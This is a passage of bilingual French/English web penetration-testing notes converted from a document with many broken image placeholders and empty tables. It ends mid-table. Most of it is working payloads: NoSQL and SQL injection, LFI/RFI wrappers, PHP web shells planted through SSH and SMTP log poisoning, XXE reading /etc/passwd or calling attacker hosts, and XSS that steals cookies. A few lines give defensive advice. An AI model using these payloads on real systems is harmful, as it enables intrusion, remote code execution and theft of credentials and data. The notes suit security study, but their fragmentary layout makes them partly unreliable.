<p id="gdcalert36" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image36.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert37">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>





**Some useful commands for LDAP injection**


<table>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
</table>


* MongoDB injection

    **With MongoDB, the data isn’t stored in row and columns. It’s different from other communs database systems.**


**Some useful commands for MongoDB injection**


<table>
  <tr>
   <td><strong>admin’ || ‘1’ == ‘1</strong>
   </td>
   <td><strong>Almost same as SQLi</strong>
   </td>
  </tr>
  <tr>
   <td><strong>// , &lt;’--</strong>
   </td>
   <td><strong>Commentaire</strong>
   </td>
  </tr>
  <tr>
   <td><strong>admin’ && this.password.match([REGEX])%00</strong>
<p>
<strong>... && this.password && this.password.match(...</strong>
   </td>
   <td><strong>example of Payload</strong>
<p>
<strong>In case the password field does not exist for some records (since it's a NoSQL database), it's always a good idea to ensure its presence by using that.</strong>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
</table>


<p id="gdcalert37" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image37.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert38">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>





**La fonction ”htmlspecialchars” protège de certaines injections SQL : elle filtre les caractère : & “ ‘ &lt; >.**


<p id="gdcalert38" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image38.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert39">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>





<p id="gdcalert39" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image39.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert40">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>





* **Pour le premier select, on peut remplacer “*” par “TABLE_NAME”.**
* **Pour le deuxième select, on peut remplacer “*” par “COLUMN_NAME”.**
* **Blind SQL injection vulnerabilities :**

    **Depending on the nature of the vulnerability and the database involved, the following techniques can be used to exploit blind SQL injection vulnerabilities:**

* **With condition ( if … )**
* **Time delay**
* **Trigger an out-of-band network interaction**

**A SQL injection provides the same level of access as the user used by the application to connect to the database (current_user())... That is why it is always important to provide the lowest privileges possible to this user when you deploy a web application. **


* SQL Truncation :
    * example : 

                    

<p id="gdcalert40" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image40.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert41">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


                    Ici, avec cette table dans l’application, on peut essayer recréer un autre compte admin en jouant sur la taille : “admin” + ” “ *7 + ”blabla”.


                    Ici ce pseudo sera tronqué à la création sur 12 octets ( sa taille MAX ) et donc sa valeur deviendra juste “admin”.


**-------------------------------------------------------------------**


* Open Redirect

    **Open Redirect vulnerabilities allows you to redirect the victim to a malicious website. They are low impact vulnerabilities in most cases unless you can use them to leak Oauth tokens.**


### 
    Some payload


<table>
  <tr>
   <td>
<strong>//www.[URL…]</strong>
   </td>
   <td><strong>If you have to begin le value by “/” ( because the developer chose that to only redirect to URL inside of the site ) you can just begin a URL with “//”</strong>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
</table>


* LFI/RFI :


### Some payloads


<table>
  <tr>
   <td><strong>?page= <a href="http://localhost/lfi.php?page=php://filter/read=convert.base64-encode/resource=lfi.php">php://filter/read=convert.base64-encode/resource=lfi.php</a></strong>
   </td>
   <td><strong>Affiche le contenu du fichier “lfi.php” encodé en Base64.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>?page= php://input</strong>
<p>
<strong>…..</strong>
<p>
<strong>&lt;?php system(“ ls -lA”) ?></strong>
   </td>
   <td><strong>Utilise le payload écrit dans les paramètres POST d’une requête.</strong>
   </td>
  </tr>
  <tr>
   <td>

<p id="gdcalert41" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image41.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert42">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


   </td>
   <td><strong>Upload a Zip file with a PHP Shell inside and execute it.</strong>
<p>
<strong>phar:// fait à peu près la même chose</strong>
<p>
<strong>%23 = #</strong>
   </td>
  </tr>
  <tr>
   <td><strong>?page=expect://[COMMAND]</strong>
   </td>
   <td><strong>“Expect” has to be activated. You can execute code using this.</strong>
   </td>
  </tr>
  <tr>
   <td><strong><a href="http://localhost/rfi.php?page=data://text/plain;base64,RXhwbG9pdCBEYXRhVVJJIGluY2x1c2lvbg==">?page=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2B</a></strong>
   </td>
   <td><strong>Dans cette exemple, la chaîne codée en base64 ( qui est un script php ) sera exécuté et l’affichage de résultat sera sur la page web</strong>
   </td>
  </tr>
  <tr>
   <td><strong><a href="http://localhost/rfi.php?page=http://serveur-pirate.net/exploit.php">?page=http://serveur-pirate.net/exploit.php</a></strong>
   </td>
   <td><strong>“exploit.php” sera exécuté. ( sans Wrapper PHP )</strong>
   </td>
  </tr>
  <tr>
   <td><strong><span style="text-decoration:underline;"> …. </span></strong>
<p>
<strong><span style="text-decoration:underline;">&lt;!ENTITY exploit SYSTEM "php://filter/read=convert.base64-decode/resource=<a href="http://site-piege/payload">http://site-piege/payload</a>"></span></strong>
<p>
<strong><span style="text-decoration:underline;">…..</span></strong>
   </td>
   <td><strong>XML External Entity Attack ( XXE ).</strong>
<p>
<strong>à bien placer dans le fichier XML en question.</strong>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
</table>


### 			RCE via Log poisoning

Step :


* Envoyez du code PHP dans le fichier log : 
    * En accédant à l’url /&lt;?php system($_GET['cmd']);?> par exemple
* Inclure le fichier log via la RFI/LFI, ce qui va exécuter le code php


<p id="gdcalert42" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image42.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert43">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>





###                        RCE via Proc Environ Injection


* Ecrire du code php dans le User-Agent
* Inclure le fichier /proc/self/environ : This file hosts the initial environment of the Apache process. Thus, the environmental variable User-Agent is likely to appear there. Ce qui va exécuter le code php


<p id="gdcalert43" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image43.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert44">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


### RCE via SSH Log Poisoning


* Try to connect to ssh on the target server : ssh '&lt;?php system($_GET['c']); ?>'@192.168.1.129
* The php code will be wrote in the log file ( /var/log/auth.log )

    

<p id="gdcalert44" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image44.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert45">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>





* payloads : 192.168.1.129/lfi/lfi.php?file=////var/log/auth.log&c=[RCE]


### RCE via SMTP Log Poisoning


* Try to connect to the SMTP (25) port : telnet 192.168.1.107 25
* Now let’s try to send a mail via the command line (CLI) of this machine and send the OS commands via the “RCPT TO” option : 

    

<p id="gdcalert45" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image45.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert46">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>





* Final payload : 192.168.1.107/lfi/lfi.php?file=/var/log/mail.log&c=ifconfig
* How to Detect
* **Détecter si une entrée utilisateur est vulnérable aux LFI/ RFI**

        **en PHP :**

* **Via la configuration PHP : **
* **“allow_url_open” :**

                **Permet la récupération de ressources distantes si**


                    **sa valeur vaut “1” ou “On”.**

* **“allow_url_include” :**

                **Permet l’inclusion de ressources distantes ainsi**


                **que le support des wrappers PHP si sa valeur vaut**


                **“1” ou “On”.**

* **Via le code applicatif : **

                **Il suffit de regarder chaque occurrence d’appel aux fonctions suivantes :**

* **[include()](http://php.net/manual/fr/function.include.php)**
* **[require()](http://php.net/manual/fr/function.require.php)**
* **[include_once()](http://php.net/manual/fr/function.include-once.php)**
* **[require_once()](http://php.net/manual/fr/function.require-once.php)**

            **Et vérifier si le paramètre passé à la fonction est**


            **directement ou indirectement une entrée utilisateur.**

* XML external entity (XXE) injection
    * **XXE vulnerabilities arise because the XML specification contains various potentially dangerous features, and standard parsers support these features even if they are not normally used by the application.**
* **Exploiting XXE to retrieves files :**
    * **To perform this kind of injection, you need to modify the submitted XML in two ways:**
* **Introduce (or edit) a DOCTYPE element (DTD ) that defines an external entity containing the path to the file.**
* **Edit a data value in the XML that is returned in the application's response, to make use of the defined external entity.**

                        **    **

    * **For example, suppose a shopping application checks for the stock level of a product by submitting the following XML to the server:**

                    **&lt;?xml version="1.0" encoding="UTF-8"?>**


                    **&lt;stockCheck>&lt;productId>381&lt;/productId>&lt;/stockCheck>**


                    **The application performs no particular defenses against XXE attacks, so you can exploit the XXE vulnerability to retrieve the /etc/passwd file by submitting the following XXE payload:**


                    **&lt;?xml version="1.0" encoding="UTF-8"?>**


                    **&lt;!DOCTYPE foo [ &lt;!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>**


                    **&lt;stockCheck>&lt;productId>&xxe;&lt;/productId>&lt;/stockCheck>         **

    * **Note : With real-world XXE vulnerabilities, there will often be a large number of data values within the submitted XML, any one of which might be used within the application's response. To test systematically for XXE vulnerabilities, you will generally need to test each data node in the XML individually, by making use of your defined entity and seeing whether it appears within the response.**


<p id="gdcalert46" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image46.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert47">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>



** **


<p id="gdcalert47" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image47.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert48">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>





**Scénario associée :**


<p id="gdcalert48" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image48.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert49">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>





<p id="gdcalert49" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image49.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert50">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert50" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image50.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert51">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>





<p id="gdcalert51" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image51.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert52">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>





<p id="gdcalert52" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image52.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert53">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>





* **XXE attacks via modified content type  :   **
    * **Most POST requests use a default content type that is generated by HTML forms, such as application/x-www-form-urlencoded. Some web sites expect to receive requests in this format but will tolerate other content types, including XML.**

                    **For example, if a normal request contains the following:**


                    **POST /action HTTP/1.0**


                    **Content-Type: application/x-www-form-urlencoded**


                    **Content-Length: 7**


                    **foo=bar**


                    **Then you might be able submit the following request, with the same result:**


                    **POST /action HTTP/1.0**


                    **Content-Type: text/xml**


                    **Content-Length: 52**


                    **&lt;?xml version="1.0encoding="UTF-8"?>&lt;foo>bar&lt;/foo>         **


                    **and then you create your own payload.    **

* **Une DTD décrit la grammaire du document — liste des éléments (ou balises), des attributs, leur contenu et leur agencement — ainsi que le vocabulaire supplémentaire sous la forme d'une liste d'Entité de caractère.  **

                **The DTD is declared within the optional DOCTYPE element at the start of the XML document. The DTD can be fully self-contained within the document itself (known as an "internal DTD"( quand s’est écrit à l'intérieur du document )) or can be loaded from elsewhere (known as an "external DTD") or can be hybrid of the two.**


                ** **


<p id="gdcalert53" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image53.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert54">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>





* **XML stands for "extensible markup language".This is a language designed for storing and transporting data.**

                **Its popularity has now declined in favor of the JSON format. **

* **f**

**Some interesting payload**


<table>
  <tr>
   <td><strong>&lt;!DOCTYPE foo [ &lt;!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]> </strong>
   </td>
   <td><strong>XXE to perform SSRF attacks</strong>
   </td>
  </tr>
  <tr>
   <td><strong>&lt;foo xmlns:xi="http://www.w3.org/2001/XInclude"></strong>
<p>
<strong>&lt;xi:include parse="text" href="file:///etc/passwd"/>&lt;/foo> </strong>
   </td>
   <td><strong>Xinclude attack</strong>
   </td>
  </tr>
  <tr>
   <td><strong>&lt;?xml version="1.0" standalone="yes"?>&lt;!DOCTYPE test [ &lt;!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>&lt;svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">&lt;text font-size="16" x="0" y="16">&xxe;&lt;/text>&lt;/svg></strong>
   </td>
   <td><strong>XXE via image format SVG</strong>
<p>
<strong>&lt;- Donnée d’une image au format SVG. Ce format prend en compte du XML.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>&lt;!DOCTYPE foo [ &lt;!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]> </strong>
   </td>
   <td><strong>Sometimes, XXE attacks using regular entities are blocked, due to some input validation by the application or some hardening of the XML parser that is being used. In this situation, you might be able to use XML parameter entities instead. XML parameter entities are a special kind of XML entity which can only be referenced elsewhere within the DTD.</strong>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
</table>


**Disabling the Document Type Definitions (DTDs) function will effectively prevent most attacks.**

**When possible, handling data using simpler formats like JSON is recommended. For almost a decade, JSON has been seen as preferable to the use of XML due to its lightweight syntax and newer construction.**

**When the entire XML document is transmitted from an untrusted client, it's not usually possible to selectively validate or escape tainted data within the system identifier in the DTD. Therefore, the XML processor should be configured to use a local static DTD and disallow any declared DTD included in the XML document.**

**If only simple XML data processing is required, use a native parser instead of a full-featured.**


* XSS ( Cross-site scripting ) :
* Definiton
    * **Cross-site scripting (also known as XSS) is a web security vulnerability that allows an attacker to compromise the interactions that users have with a vulnerable application.**

                **It allows an attacker to circumvent the same origin policy, which is designed to segregate different websites from each other.**

* **Cross-site scripting works by manipulating a vulnerable web site so that it returns malicious JavaScript to users.**
* **Reflected XSS is the simplest variety of cross-site scripting. It arises when an application receives data in an HTTP request and includes that data within the immediate response in an unsafe way. **
* **Certains XSS peuvent s’effectuer avec des tags personnalisés.**


### 			  Interesting payload


<table>
  <tr>
   <td><strong>">&lt;script>alert(document.domain)&lt;/script></strong>
   </td>
   <td><strong>When the XSS context is into an HTML tag attribute value, you might sometimes be able to terminate the attribute value, close the tag, and introduce a new one.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>&lt;..   " autofocus onfocus=alert(document.domain) x=" ..></strong>
   </td>
   <td><strong>More commonly, angle brackets are blocked or encoded.</strong>
<p>
<strong>Provided you can terminate the attribute value, you can normally introduce a new attribute that creates a scriptable context, such as an event handler.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>&lt;a href="javascript:alert(document.domain)" > </strong>
   </td>
   <td><strong>Il est possible d’injecter du script dans l’attribut <em>Href</em> (</strong> <strong>Sur des attributs en général ou une URL est attendue )</strong>
   </td>
  </tr>
  <tr>
   <td><strong>&lt;/script>&lt;img src=1 onerror=alert(document.domain)></strong>
   </td>
   <td><strong>In context when you can close the script tag that is enclosing a existing Javascript.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>'-alert("hello")-’</strong>
<p>
<strong>';alert("hello")//</strong>
<p>
<strong>....</strong>
   </td>
   <td><strong>In cases where the XSS context is inside a quoted string literal, it is often possible to break out of the string and execute JavaScript directly.</strong>
<p>
<strong>It is essential to repair the script following the XSS context, because any syntax errors there will prevent the whole script from executing.</strong>
<p>
<strong>Sur le premier payload , les opérateurs “-” permettent de séparer la fonction alert avec ce qui lui entoure (on peut utiliser n’importe quelle opération arithmétique à la place ).</strong>
<p>
<strong>Avant d'effectuer l'opération arithmétique , Alert(“hello”) sera évaluée donc exécutée</strong>
   </td>
  </tr>
  <tr>
   <td><strong>\\';alert(document.domain)//</strong>
   </td>
   <td><strong>Some applications attempt to prevent input from breaking out of the JavaScript string by escaping any single quote characters with a backslash. A backslash before a character tells the JavaScript parser that the character should be interpreted literally.</strong>
<p>
<strong>In this situation, applications often make the mistake of failing to escape the backslash character itself.</strong>
<p>
<strong>This means that an attacker can use their own backslash character to neutralize the backslash that is added by the application.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>&lt;script>onerror=alert;throw 1&lt;/script></strong>
<p>
<strong>&lt;script>{onerror=alert}throw 1&lt;/script></strong>
   </td>
   <td><strong>This enables you to pass arguments to a function without using parentheses.</strong>
<p>
<strong>The following code assigns the alert() function to the global exception handler ( onerror ) and the throw statement passes the 1 to the exception handler (in this case alert).</strong>
   </td>
  </tr>
  <tr>
   <td><strong>&lt;script>throw onerror=alert,'some string',123,'haha'&lt;/script></strong>
   </td>
   <td><strong>L'opérateur virgule en JS permet dans un certain contexte d'évaluer chacun de ses opérandes (de la gauche vers la droite) et de renvoyer la valeur du dernier opérande.</strong>
<p>
<strong>ici, c’est alert(‘haha’) qui s’affiche.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>&lt;script>{onerror=eval}throw'=alert\x281\x29'&lt;/script></strong>
   </td>
   <td><strong>Chrome prefixes the string sent to the exception handler with "Uncaught".</strong>
<p>
<strong>The string sent to eval is "Uncaught=alert(1337)". </strong>
<p>
<strong>This works fine on Chrome but on Firefox the exception gets prefixed with a two word string "uncaught exception" so it doesn’t work on it.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>&apos;-alert(document.domain)-&apos; </strong>
   </td>
   <td><strong>When the XSS context is some existing JavaScript within a quoted tag attribute, such as an event handler, it is possible to make use of HTML-encoding to work around some input filters. </strong>
<p>
<strong>When the browser has parsed out the HTML tags and attributes within a response, it will perform HTML-decoding of tag attribute values before they are processed any further</strong>
   </td>
  </tr>
  <tr>
   <td><strong>${alert(document.domain)} </strong>
   </td>
   <td><strong>When the XSS context is into a JavaScript template literal </strong>
<p>
<strong>( encapsulated in backticks instead of normal quotation marks ). you simply need to use the ${...} syntax to embed a JavaScript expression that will be executed when the literal is processed. And there is no need to terminate the literal.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>&lt;xss id=x onfocus=alert(document.cookie)</strong>
<p>
<strong> tabindex=1 >blabla &lt;/xss></strong>
   </td>
   <td><strong>Via des tags personnalisées</strong>
   </td>
  </tr>
  <tr>
   <td><strong>&lt;script></strong>
<p>
<strong>document.write('&lt;img src="[URL]?c='+document.cookie+'" />');</strong>
<p>
<strong>&lt;/script></strong>
   </td>
   <td><strong>Stealing Cookie with img</strong>
   </td>
  </tr>
  <tr>
   <td>
